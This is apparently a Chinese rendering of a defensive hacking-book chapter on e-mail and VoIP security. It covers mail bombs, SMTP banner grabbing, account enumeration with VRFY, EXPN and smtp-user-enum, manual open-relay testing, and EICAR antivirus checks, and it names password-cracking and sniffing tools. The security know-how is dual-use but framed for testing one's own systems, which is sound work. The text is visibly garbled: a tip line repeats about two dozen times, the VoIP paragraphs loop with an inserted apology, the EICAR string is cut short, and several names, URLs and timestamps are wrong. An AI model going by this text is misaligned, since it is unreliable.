我在本节描述的攻击利用我见的最常见的电子邮件安全漏洞。好消息是，你可以消除或减少大多数攻击，直到你的信息不再处于风险的程度。某些攻击需要基础的黑客方法：收集公共信息、扫描并枚举你的系统，以及发现并利用漏洞。其他攻击可以通过发送电子邮件或捕获网络流量来实现。

# 邮件炸弹

邮件炸弹通过对你的电子邮件软件甚至你的网络和互联网连接创建拒绝服务 (DoS) 条件进行攻击，这会占用大量带宽，有时还需要大量的存储空间。邮件炸弹可以导致服务器崩溃并提供未经授权的管理员访问——是的，即使在今天看似无尽的存储容量下。

# 附件

攻击者可以通过向网络中的一个或多个接收者发送成百上千封带有非常大附件的电子邮件来创建附件过载攻击。

# 使用邮件附件的攻击

附件攻击有两个目标：

- 服务器可能成为目标，导致服务完全中断，其故障原因包括：
    - 存储过载：多条大消息可以迅速填满电子邮件服务器的总存储容量。如果服务器没有自动删除消息或用户没有手动删除，服务器将无法接收新消息。

这会为你的电子邮件系统产生重大的 DOS 问题，导致其崩溃或要求你将系统下线以清理积累的垃圾。一个 100MB 的文件附件发送 10 次给 100 个用户可能会占用 100GB 的存储空间，这积起来是很巨大的！

- 带宽阻塞：攻击者可以通过向传入的互联网连接中填充垃圾来使你的电子邮件服务崩溃或运行极其缓慢。即使你的系统会自动识别并丢弃明显的附件攻击，虚假消息也会消耗资源并延迟有效消息的处理。

- 如果该地址属于重要用户或组，针对单个电子邮件地址的攻击可能会产生严重后果。

# 针对邮件附件攻击的防御措施

这些防御措施有助于防止附件过载攻击：

- 限制电子邮件的大小。
- 在你的电子邮件服务器配置（如 Microsoft Exchange）中、电子邮件过滤系统中，甚至在电子邮件客户端中检查此选项。

第 14 章 通信与消息系统 255

- 限制每个用户在服务器或云中的空间。这防止了大型附件被写入磁盘。我发现几个 GB 是一个很好的限制，但限制取决于你的网络规模、存储可用性等。

使用 SFTP、FTP 或 HTTPS 代替大文件传输。许多基于云的文件服务，如 Dropbox、OneDrive for Business 和 Sharefile。你还可以鼓励用户使用部门共享或公共文件夹。这样做，你可以在服务器上存储文件的副本，让接收者在自己的工作站上下载。

与流行观点和用法相反，电子邮件系统不应该是信息存储库，但这正是电子邮件演变成的样子。如果你的业务需要处理与诉讼相关的电子取证请求，为此目的使用的电子邮件服务器可能会变成一场噩梦。你安全的一个重要部分是制定信息分类和保留计划以帮助进行记录管理。但它并非孤立存在。让你的律师、人力资源经理和首席信息官参与进来。这种做法有助于确保大家参与，并确保你的业务在诉讼或调查期间不会因持有过多或过少的电子记录而陷入麻烦。

# 连接

黑客可以同时向你的电子邮件系统发送大量邮件。如果你的网络存在简单邮件传输协议 (SMTP) 中继器，位于你网络上的恶意软件也可以从网络内部做同样的事情。这些连接攻击会导致服务器放弃处理任何入站或出站的传输控制协议 (TCP) 请求。这种情况可能导致服务器锁定或崩溃，从而导致攻击者获得系统管理员或 root 权限的状态。

# 使用邮件洪的攻击

使用使用邮件洪的攻击发生在垃圾邮件攻击和其他 DoS 攻击中。

# 针对连接攻击的防御措施

尽可能在你的网络边界之外阻止电子邮件攻击，最好是在云端。越进入你电子邮件服务器和客户端的流量或恶意行为越少越好。

256 部分 5 类攻击应用程序


## 

邮件服务器允许你限制用于入站连接的资源数量，如图 14-1 所示 IceWarp 邮件服务器的“最大并发线程数”设置所示。这在不同的邮件服务器和防火墙中名称各异，因此请检查你的文档。完全停止无限的入站请求是不可能的，但你可以尽地减少攻击的影响。这限制了服务器处理器的运行时间，在 DoS 攻击期间有所帮助。

图 14-1：
限制处理入站消息的资源数量。



在大型公司中，或者如果你使用 Gmail 或 Office 365 等云端邮件服务，没有理由在短时间内需要数千次入站投递。

邮件服务器可以程序为将电子邮件发送到服务以执行自动化功能，例如在收到消息时创建此电子商务订单。如果系统没有内置 DoS 保护，攻击者可以导致服务器以及接收这些消息的应用程序崩溃，可能产生电子商务责任和损失。当表单没有使用 CAPTCHA（全自动公共图灵测试区分计算机与人类）时，这种类型的攻击在电子商务网站上更容易发生。当你对与后端电子邮件地址关联的 Web 表单进行漏洞扫描时，这可能会产生问题。生成数千甚至数百万封电子邮件并不罕见。做好准备并让相关人员知道该风险的存在是明智的。我将在第 15 章中介绍 Web 应用安全。

## 自动化邮件安全控制

你可以实施以下对措施作为你邮件系统的额外安全层：

- **蜜罐提取（Tarpiting）：** *Tarpiting* 用于检测目标为未知用户的入站消息。如果你的服务器支持蜜罐提取，它可以帮助防止针对你服务器的垃圾邮件或 DoS 攻击。如果超过了定义的阈值——例如，一分钟内超过 100 条消息——蜜罐函数将在一段时间内有效地分流来自发送 IP 地址的流量。

- **邮件防火墙：** 来自 Symantec 和 Barracuda Networks 等供应商的邮件防火墙和内容过滤应用程序在防止各种邮件攻击方面大有益益。这些工具保护邮件系统的每一个方面。

- **边界保护：** 虽然不是专门针对邮件的，但许多防火墙和入侵防御系统可以检测各种邮件攻击并实时关闭攻击者，这在攻击期间非常有用。

- **CAPTCHA：** 在基于 Web 的邮件表单中使用 CAPTCHA 可以帮助最大限度地减少自动化攻击的影响，并减少邮件泛滥和 DoS 的概率，即使你在保护看似无害的漏洞扫描时也是如此。当你测试网站和应用程序时，这些优势非常有用，正如我在第 15 章中讨论的那样。

## 横幅（Banners）

在攻击邮件服务器时，黑客的首要任务是执行基础的横幅抓取（banner grab），以查看是否可以发现运行的是什么邮件服务器软件。这项测试是发现世界上对你的 SMTP、POP3 和 IMAP 服务器了解程度的关键测试之一。

## 收集信息

图 14-2 显示了在端口 25 (SMTP) 上建立基础 Telnet 连接时邮件服务器上显示的横幅。要做到这一点，在命令提示符中只需 `telnet ip or_hostname_of_your_server 25`。该命令在 TCP 端口 25 上打开一个 Telnet 会话。

## 图 14-2：显示服务器版本信息的 SMTP 横幅。



邮件软件类型和服务器版本通常显而易见，并为黑客提供可能的攻击提供一些思路，特别是如果他们检查漏洞数据库中该软件版本的已知漏洞。图 14-3 显示了同一服务器，其 SMTP 横幅已从默认（好吧，上一个也是）更改，将信息伪装成邮件服务器的版本号。

## 图 14-3：伪装版本信息的 SMTP 横幅。



你可以通过 Telnet 到端口 110 (POP3) 或端口 143 (IMAP) 来收集 POP3 和 IMAP 邮件服务的信息。

如果你更改了 SMTP 横幅，不要认为没人能推出版本。通用漏洞扫描器可以检测你邮件服务器的版本。名为 smptscan (www.freshports.org/security/smtpscan) 的 Linux 工具根据服务器对畸形 SMTP 请求的响应确定服务器版本信息。图 14-4 显示了 smptscan 对图 14-3 中同一服务器的扫描结果。smptscan 工具可以检测邮件服务器的产品和版本。



## 图 14-4：当横幅被伪装时 smptscan 收集版本信息。

## 针对横幅攻击的防御措施

没有100% 安全的方法可以伪装横幅信息。我为 SMTP、POP3 和 IMAP 提出了这些安全建议：

- 更改你的横幅以隐藏细节。
- 确保你始终运行最新的补丁。
- 使用互联网安全中心（Center for Internet Security）的知名实践尽可能加固你的服务器。

## SMTP 攻击

某些攻击利用 SMTP 的缺陷。这种通信协议已有几十年历史，其设计是为了功能而非安全。

## 账户枚举

攻击者验证账户是否存在的一种清晰方法是 Telnet 到端口 25 并运行 VRFY 命令。VRFY（verify 的缩写）让服务器检查特定用户是否存在。垃圾邮件发送者自动化这种方法进行目录收割攻击（DHA），从服务器收集地址以便发送垃圾邮件、钓鱼或带有病毒的消息。

## 使用 VRFY 进行枚举

图 14-5 显示了在启用 VRFY 的服务器上如何验证电子邮件地址。



SMTP 命令 EXPN（expand 的缩写）可能允许攻击者验证服务器上哪些邮件列表。使用 Telnet 到端口 25 并尝试 EXPN，如果你知道任何邮件列表。图 14-6 显示了结果可能的样子。在执行这些任务时，可能会从服务器获得虚假信息。某些 SMTP 服务器（如 Microsoft Exchange）不支持 VRFY 和 EXPN 命令，某些防火墙会忽略它们或返回虚假信息。


图 14-6：
使用 EXPN
验证
邮件列表是否存在。

另一种处理这些内容的方法是使用 Tasoft Essential NetTools (https://www.tamos.com/products/nettools) 中的 EmailVerify 程序。如图 14-7 所示，你输入电子邮件地址并点击开始；EmailVerify 连接到服务器并模拟发送电子邮件。

另一种获取有效电子邮件地址的方法是使用 theHarvester (https://github.com/lais/theHarvester) 通过 Google 和搜索引擎采集地址。正如我在第 9 章中概述的，你可以从 kali.org 下载 Kali Linux 以启动 ISO 镜像，或直接通过 VMware 或 VirtualBox 启动镜像。在 Kali Linux 界面中，选择应用程序<-信息收集：<- SMTP 分析<- smtp-user-enum，并输入 smtp-user-enum -M VRFY -u <想要确认的用户名> -t 服务器 IP/主机名，如图 14-8 所示。

你也可以自定义 smtp-user-enum 查询，例如用 EXPN 代替 VRFY，并使用 -U 和文件中的用户名列表来查询多个用户。


# 核心网络技术

文件 编辑 视图 设置 帮助

```
Connectivity
正在查找域名 principleogic.com 的邮件服务器
mail.apcap.net (10)
正在连接到邮件服务器 mail.apcap.net
在邮件服务器上检查用户
220 mail.apcap.net ESMTP Enterprise
250-06EE-auth mail.apcap.net
250-0628 10487600
250-0628 10487600
250-STARTTLS
250-0628 10487600
250-0628 10487600
250-DMARC@principleogic.com
250 2.1.0 OK
250 2.1.0 OK
250 2.1.0 OK
250 2.0.0 Bye
```

图 14-7：
使用 EmailVerify 验证电子邮件地址。



邮件：
user-verify@principleogic.com
开始清除
“发件人”地址
使用默认设置
使用自定义设置
服务器：
使用自定义地址



```
root@localhost ~ #
root: File Edit View Search Terminal Help
$ smtp-user-enum -M VRFY -u btaver -t 10.1.1.10
starting smtp-user-enum v1.2 (http://testsmtp.net/tools/smtp-user-enum)
- 扫描信息:
Mode VRFY
worker Processes 5
target 1
domain count 1
target RCPT count 1
query timeout 5 secs
########## Scan started at Wed Sep 16 15:28:48 2018 #######
Results:
0
########## Scan completed at Wed Sep 16 15:28:40 2018 #######
Finished in 1.0 seconds (10 queries / sec)
root@localhost ~#
```

图 14-8：
使用 smtp-user-enum 工具获取电子邮件地址。

# 针对账户枚举的防御措施

如果你正在运行 Exchange，账户枚举将成为一个问题。如果你没有运行 Exchange，防止此类账户枚举的最好方法取决于你是否需要启用 VRFY 和 EXPN 命令，具体如下：

第 5 部分 黑客攻击应用程序

- >> 除非你需要远程系统从你的服务器收集我们的用户和邮件列表信息，否则禁用 VRFY 和 EXPN。
- >> 如果你需要 VRFY 和 EXPN 功能，请检查你的邮件服务器或防火墙文档，查看是否有将这些命令限制为网络或互联网上特定主机的功能。

最后，与你的营销团队和 Web 开发人员合作，确保公司电子邮件地址不会发布在机构的网站或社交媒体网站上。教育你的用户不要这样做。

# 中继

SMTP 中继允许用户通过外部服务器发送电子邮件。开放式邮件中继（Open email relays）不再像以前那样成为问题，但你仍然需要检查。垃圾邮件发送者和犯罪黑客可以利用邮件服务器在不知情的开放式中继所有者名下发送垃圾邮件或恶意软件。

务必在你的网络内部和外部测试开放式中继。如果你测试内部系统，可能会得到假阳性结果，因为邮件中继可能被配置过，并且对于你的内部客户端向外部世界发送消息是必要的。然而，如果一个客户端系统被攻破，这种情况可能正是坏人利用你的系统发起外部垃圾邮件或恶意软件攻击所需的。


## 自动测试

这里是测试服务器是否支持 SMTP 中继的几种方法：

- >> 漏洞扫描器：许多漏洞扫描器（如 Nexpose 和 QualysGuard）可以发现开放式中继漏洞。
- >> 基于 Windows 的工具：例如是 NetScanTools Pro (www.netscools.com)。你可以使用 NetScanTools Pro 在你的邮件服务器上运行 SMTP 中继检查，如图 14-9 所示。

某些 SMTP 服务器接受入站连接并使中继看起来可用，这种情况并非总是如此，因为初始连接可能是被允许的，但过滤实际上是在后台进行的。通过检查你发送消息的账户来确认邮件是否发送成功。在 NetScanTools Pro 中，输入邮件服务器名称和“你的发送域名”。在“测试设置”内部，输入收件人电子邮件地址和发件人电子邮件地址。如果测试成功，NetScanTools Pro 会打开一个显示“消息发送”（Message Sent）的窗口。


第 14 章 通信与消息服务 263

# 图 14-10：
使用 NetScanTools Pro 服务器测试检查邮件中继。



你也可以在主服务器测试（Server Tests）中查看结果，并通过点击“结果”（Results）生成报告。

## 手动测试

你也可以在服务器测试中查看结果并通过点击“结果”生成报告。你可以通过连接到服务器的 25 端口来手动测试服务器是否支持中继：

- **1. 连接到服务器的 25 端口。** 按照以下步骤操作：
```bash
telnet mailserver_address 25
```
- **2. 连接到服务器的 25 端口后，你应该看到欢迎信息。** 成功连接后显示以下命令。你可以使用你喜欢的 Telnet 应用程序，如 PuTTY。
- **3. 连接到服务器 25 端口后，你应该看到欢迎信息。** 输入以下命令显示你的邮件地址：
```
mail from:username@domain.com
```
- **4. 连接到服务器的25 端口后，你应该看到欢迎信息。** 输入以下命令发送邮件：
```
rcpt to:recipient@domain.com
```
- **5. 连接到服务器的 25 端口后，你应该看到欢迎信息。** 输入以下命令作为邮件正文：
```
data
```
- **6. 连接到服务器的 25 端口后，你应该看到欢迎信息。** 输入以下文本作为邮件正文：
```
A Relay test!
```
- **7. 连接到服务器的 25 端口后，你应该看到欢迎信息。** 输入一个单独的点来结束命令。
```
.
```
如果中继被允许，输入此点后你的邮件将发送。
- **8. 检查服务器的中继情况：**
- 寻找类似“Relay not allowed”的消息。
- 如果你在输入 `rcpt to:` 命令后收到类似此的消息，说明你的服务器没有开启中继或被过滤了，因为许多服务器会阻止看似来自外部实际来自内部的消息。
- 如果你没有收到服务器的邮件，请检查你的收件箱中的中继邮件。

如果你收到了发送的测试邮件，说明你的服务器开启了中继并可能需要禁用。你最不希望的是让垃圾邮件发送者或其他攻击者看起来像是你在发送大量垃圾邮件，更糟糕的是被一个或多个黑名单提供者列入黑名单。进入黑名单会影响邮件的发送和接收，这对业务不利！


>> `Received` 行泄露了系统的主机名、IP 地址以及电子邮件客户端软件版本。

>> `X-Mailer` 行显示了我发送此条消息时使用的 Microsoft Outlook 版本。

```
X-Amplify-To: my-recipient@example.com from example_email@example_address; Wed, 04 Feb 2024
Return-Path: <mailer@example.com>
Received: from example_email@example_address (example.com) with HELLO example_email@example_address; Wed, 04 Feb 2024 10:54:12 -0700 (EDT)
Received: from [192.168.1.1] (by mail.google.com [mx]) with SMTPTPS TLSv1_2 (encrypted) (cipher=AES_256_GCM,SHA284)
        id 2220121-000-00000000000; Wed, 04 Feb 2024 10:54:12 -0700 (EDT)
    ----example.......   
```

## 恶意软件

电子邮件系统经常受到病毒和蠕虫等恶意软件的攻击。针对恶意软件，你可以运行的最重要的测试之一是验证反恶意软件是否正常工作。

请记住，在开始测试反恶意软件之前，请确保你已经加载了最新的反恶意软件引擎和签名。虽然 EICAR 绝不是一种全面的漏洞测试方法，但它可以作为一个很好的起点。EICAR 是一家总部位于欧洲的恶意软件智库，它与反恶意软件供应商合作提供这项基础测试。EICAR 测试字符串以电子邮件正文或文件附件的形式传输，这样你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

```
EICAR-STANDARD-ANTIMALWARE-TEST-FILE!
```

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

> 提示：在邮件正文或作为文件附件传输 EICAR 测试字符串，你可以看到你的服务器和工作站如何响应，它包含以下 68 个字符的字符串：

使用反恶意软件可以检测文件：www.eicar.org/non-intended-use.html

病毒警报
反病毒软件检测并删除了文件
对象名称：eicar.com
病毒名称：EICAR 测试字符串
操作结果：文件已自动删除

图 14-11 使用反恶意软件

在测试反恶意软件之外，你还可以使用 [Metasploit](https://www.metasploit.com) 发现黑客可以利用的漏洞。[Brutus](https://www.hoobie.net/brutus) 可以破解 POP3/IMAP 密码

## 针对邮件头信息泄露的应对措施

最好的措施是配置邮件服务器或防火墙来重写或删除信息。如果无法重写（被服务提供商禁止），你仍然可以防止服务器编号和内部 IP 地址

## 流量捕

电子邮件流量（包括用户名和密码）可以使用网络分析器或邮件嗅探器捕获。[dsniff](http://sectools.org/tool/dsiff) 是一个非常好的工具，类似的还有 [NetResident](tamos.com/products/netresident)。

## 减少安全风险的通用最佳实践

以下应对措施有助于保持邮件尽可能安全：

### 软件解决方案

正确的软件可以消除许多威胁：

- 在邮件服务器上使用反恶意软件——最好通过邮件网关防止恶意软件到达邮件客户端。Google 和 Microsoft 提供的云电子邮件系统通常内置此类保护。在客户端上使用恶意防护是必要的。
- 应用最新的操作系统 (OS) 和邮件服务器安全补丁以及任何发布的安全警告。
- 加密（在合理的情况下）。你可以使用传统的 S/MIME 或 PGP 加密敏感消息，或者在桌面层、服务器层或邮件网关进行电子邮件加密。更好（更容易），你可以通过 POP3S、IMAPS 和 SMTP 协议使用 TLS。最佳选择可能是使用支持通过 HTTPS 浏览器收发加密邮件的电子邮件安全应用程序或云服务，例如 G Suite 和 Office 365。

不要依赖用户来加密消息。对于任何其他安全策略或控制，依赖用户做出安全决策通常结果很糟糕。使用企业级解决方案自动加密消息。

确保加密的文件和邮件能够受到恶意软件的保护。加密并不能防止恶意软件进入文件或邮件。加密会导致服务器或网关反恶意软件在到达桌面之前无法检测到。

- 让用户不要打开任何附件，尤其是来自未知发送者或不可信来源的附件，并进行持续的意识培训和其他提醒。
- 为那些忽略或忘记不打开未请求邮件和附件的用户制定计划。这会发生！某些软件（如 Microsoft Outlook 和 Windows SmartScreen）可以帮助提醒用户这些内容。


# 操作指南

一些简单的操作规则可以增强您的防御堡垒，并将攻击者排除在您的邮件系统之外：

- 将您的邮件服务器放在防火墙之后，并使其与互联网以及内部局域网（LAN）处于不同的网段——理想情况下，位于非军事化区（DMZ）。或者，使用邮件网关。
- 通过禁用邮件服务器上未使用的协议和服务来增强加固性。
- 如果可能，在专用的服务器上运行您的邮件服务器并进行恶意软件扫描（可能分离入站和出站消息）。这样做可以在服务器被黑客入侵时，防止恶意攻击扩散到其他服务器并保护信息。寻找能够测试嵌入链接、对其进行测试并提供安全链接的解决方案。
- 记录所有与服务器的交互日志，以便在需要调查恶意使用情况时使用。务必监控这些日志！如果您无法胜，可以考虑将此功能外包给托管安全服务提供商。
- 如果您的服务器不需要运行某些服务（SMTP、POP3 和 IMAP），请禁用它们。
- 对于基于 Web 的电子邮件（如微软的 Outlook Web Access (OWA)），请使用本书中的各种技术和加固资源，对您的服务器应用程序和操作系统进行适当的测试和加密。
- 要求使用强密码。对于独立账户以及域级 Exchange 或类似的账户，网络上的任何密码弱点都会渗透并被他人通过 Outlook Web Access 或 POP3 利用。我将在第 8 章中介绍密码哈希处理。
- 务必将您的服务器纳入漏洞扫描和渗透测试计划中。
- 如果您正在运行 sendmail —— 尤其是旧版本——请考虑运行安全的替代方案，例如 Postfix (www.postfix.org) 或 gmail (www.gmail.org)。

# 了解 VoIP

如今企业中广泛使用的技术是 IP 协议语音传输（Voice over Internet Protocol）。内部 VoIP 系统和针对远程用户的系统、VoIP 服务器、软电话以及相关组件都有其自身的安全漏洞。由于大多数与安全相关的因素，许多人还没有考虑过跨越其网络或互联网的语音对话的安全性，但这些问题确实需要纳入您的关注范围。不要担心——现在纠正错误还为时不晚。只需记住，如果采取了保护措施，则需要持续地将 VoIP 系统包含在您的整体安全测试中。

# VoIP 漏洞

与任何技术或网络协议组一样，坏人总是会找到侵入的方法。VoIP 也绝无例外。事实上，考虑到涉及的利益（电话对话和电话系统的可用性），您有很多可能失去。

与 VoIP 系统并不比其他常见的计算机系统更安全（或不安全）。为什么 VoIP 系统有自己的操作系统，拥有 IP 地址，并且可以在网络上访问。更严重的问题是，许多 VoIP 系统包含了更多的智能（这是“容易出错的内容更多”的雅说法），使得 VoIP 网络更容易被破解。

如果您想了解 VoIP 是如何运行的（这无疑将帮助您根除漏洞），请查看 Timothy V. Kelly 编写的《IP For Dummies》（John Wiley & Sons, Inc.）。


一方面，VoIP 系统的漏洞与书中的其他系统非常相似，包括默认设置、缺失补丁和弱密码。由于如此，使用标准的漏洞扫描工具非常重要。图 14–12 显示了与 VoIP 适配器 Web 界面身份验证机制相关的各种漏洞。

查看这些结果，您可能会认为该设备只是一个基础 Web 服务器。这正是我的核心观点：VoIP 系统无非是带有可以被利用的漏洞的网络计算机系统。

另一方面，有两个主要的安全弱点专门与 VoIP 相关：

- 电话服务中断：是的，VoIP 像任何其他系统或应用程序一样容易受到 DoS 攻击。考虑到人们对断断和掉线电话对话的忍度极低（当然，手机除外），VoIP 与那里对时间最敏感的应用一样脆弱。

- 缺乏加密：VoIP 的另一个大弱点是语音对话通常没有加密；因此，它们可以被拦截和解码。想象一下坏人录制对话并勒索受害者会有多么“乐趣”。在不安全的无线网络上这很容易，但正如我在接下来的章节“捕获和录制语音流量”所示，在有线网络上执行也很简单。

# Webinspect: 192.168.15.1

| 计数 | 说明 |
|---|---|
| 1 | 用户名和密码泄露 |
| 2 | 用户名或密码泄露 |
| 3 | 在未加密连接上设置登录 |
| 4 | 内部信息泄露 |
| 5 | 显示详情 |
| 6 | 显示链接 |
| 7 | 显示注释 |
| 8 | 显示隐藏 |
| 9 | 显示 Fpass |
| 10 | HTTP 编辑器 |
| 11 | 帮助 |

图 4-12：对 VoIP 网络的 Webinspect 扫描显示了多处弱点。

由于 VoIP 网络没有通过网络分段（如虚拟局域网 VLAN）进行保护，语音网络特别容易受到攻击。

查看这些结果，您可能会认为该设备只是一个基础 Web 服务器。这正是我的核心观点：VoIP 系统无非是带有可以被利用的漏洞的网络计算机系统。

一方面，VoIP 系统的漏洞与书中的其他系统非常相似，包括默认设置、缺失补丁和弱密码。由于如此，使用标准的漏洞扫描工具非常重要。图 14–12 显示了 VoIP 适配器 Web 界面身份验证机制相关的各种漏洞。

查看这些结果，您可能会认为该设备只是一个基础 Web 服务器。这正是我的核心观点：VoIP 系统无非是带有可以被利用的漏洞的网络计算机系统。

另一方面，有两个主要的安全弱点专门与 VoIP 相关：

- 电话服务中断：是的，VoIP 像任何其他系统或应用程序一样容易受到 DoS 攻击。考虑到人们对断断和掉线电话对话的忍度极低（当然，手机除外），VoIP 与那里对时间最敏感的应用一样脆弱。

- 缺乏加密：VoIP 的另一个大弱点是语音对话通常没有加密；因此，它们可以被拦截和解码。想象一下坏人录制对话并勒索受害者会有多么“乐趣”。在不安全的无线网络上这很容易，但正如我在接下来的章节“捕获和录制语音流量”所示，在有线网络上执行也很简单。

# 扫描漏洞

由于 VoIP 网络没有通过网络分段（如虚拟局域网 VLAN）进行保护，语音网络特别容易受到攻击。

查看这些结果，您可能会认为该设备只是一个基础 Web 服务器。这正是我的核心观点：VoIP 系统无非是带有可以被利用的漏洞的网络计算机系统。

另一方面，有两个主要的安全弱点专门与 VoIP 相关：

- 电话服务中断：是的，VoIP 像任何其他系统或应用程序一样容易受到 DoS 攻击。考虑到人们对断断和掉线电话对话的忍度极低（当然，手机除外），VoIP 与那里对时间最敏感的应用一样脆弱。

- 缺乏加密：VoIP 的另一个大弱点是语音对话通常没有加密；因此，它们可以被拦截和解码。想象一下坏人录制对话并勒索受害者会有多么“乐趣”。在不安全的无线网络上这很容易，但正如我在接下来的章节“捕获和录制语音流量”所示，在有线网络上执行也很简单。

（抱歉，上述部分出现了重复，以下为修正后的后续内容）

由于 VoIP 网络没有通过网络分段（如虚拟局域网 VLAN）进行保护，语音网络特别容易受到攻击。

查看这些结果，您可能会认为该设备只是一个基础 Web 服务器。这正是我的核心观点：VoIP 系统无非是带有可以被利用的漏洞的网络计算机系统。

另一方面，有两个主要的安全弱点专门与 VoIP 相关：

